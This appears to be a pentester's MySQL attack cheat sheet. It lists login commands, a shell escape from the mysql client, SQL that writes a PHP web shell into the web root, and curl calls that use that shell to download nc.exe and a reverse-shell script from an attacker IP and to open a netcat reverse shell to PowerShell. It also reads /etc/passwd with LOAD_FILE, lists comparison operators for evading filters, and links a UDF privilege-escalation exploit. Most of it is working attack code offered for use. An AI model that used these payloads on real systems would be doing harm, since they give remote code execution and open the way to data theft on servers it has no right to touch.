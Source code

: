 # MySQL Hacking

## Login
For `mysql` including [[MariaDB-Hacking]]:
```bash
mysql -u $username -p $password -h $HOST
mysql -u root -h $HOST
mysql -u root -h $HOST -P $port

mysql>\! sh # run a sh shell from mysql!
```

## `INTO SHELL` Shell
```sql
-- PHP
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
curl "http://$ip/shell.php?cmd=whoami"
curl "http://$ip/shell.php?cmd=certutil+-urlcache+-f+http://$ip/nc.exe+nc.exe"
curl "http://$ip/shell.php?cmd=wget+http://$ip/reverse_shell.sh"
curl "http://127.0.0.1:8080/shell.php?cmd=nc.exe+$ip+4444+-e+powershell.exe"
```
## Misconfigurations

[Raptor.c](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf.c)

## Exploit 

The basic methodology for exploiting MySQL:
-   Access the remote database using administrator credentials
-   Create a new table in the main database
-   Inject PHP code to gain command execution
	    Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`  
-   Drop table contents onto a file the user can access  
-   Execute and obtain RCE on the host.

Either 
```sql
CREATE TABLE users(
id INT AUTO_INCREMENT,
   first_name VARCHAR(100),
   last_name VARCHAR(100),
   email VARCHAR(50),
   password VARCHAR(20),
   location VARCHAR(100),
   dept VARCHAR(100),
   is_admin TINYINT(1),
   register_date DATETIME,
   PRIMARY KEY(id)
);
```

Or use `SELECT * LOAD_FILE('/etc/passwd')`

  `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

## Bypassing Defences

#### Comparison Operators

To bypass weak detection on the equals operator here are all the comparison operators in MySQL
[MySQL comparison operators](https://dev.mysql.com/doc/refman/8.0/en/comparison-operators.html)
```sql
>  -- Greater than operator
>=  -- Greater than or equal operator
<  -- Less than operator
<>, !=  -- Not equal operator
<=  -- Less than or equal operator
<=>  -- NULL-safe equal to operator
=  -- Equal operator
BETWEEN ... AND ...  -- Whether a value is within a range of values
COALESCE()  -- Return the first non-NULL argument
GREATEST()  -- Return the largest argument
IN()  -- Whether a value is within a set of values
INTERVAL()  -- Return the index of the argument that is less than the first argument
IS  -- Test a value against a boolean
IS NOT  -- Test a value against a boolean
IS NOT NULL  -- NOT NULL value test
IS NULL  -- NULL value test
ISNULL()  -- Test whether the argument is NULL
LEAST()  -- Return the smallest argument
LIKE  -- Simple pattern matching
NOT BETWEEN ... AND ...  -- Whether a value is not within a range of values
NOT IN()  -- Whether a value is not within a set of values
NOT LIKE  -- Negation of simple pattern matching
STRCMP()  -- Compare two strings
```
## References

[Raptor.c](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf.c)
